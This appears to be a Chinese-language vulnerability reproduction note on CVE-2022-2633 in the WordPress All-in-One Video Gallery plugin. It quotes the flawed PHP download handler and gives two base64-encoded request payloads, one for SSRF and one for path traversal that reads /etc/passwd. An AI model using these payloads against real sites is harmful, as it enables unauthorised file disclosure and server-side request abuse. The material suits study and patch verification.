



# WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

```
WordPress All-in-One Video Gallery <= 2.6.0
```

## 插件名称

```
All-in-One Video Gallery
```

https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php



这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```


当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变


当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```


看向代码最后的片段，则存在任意文件读取漏洞



```
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

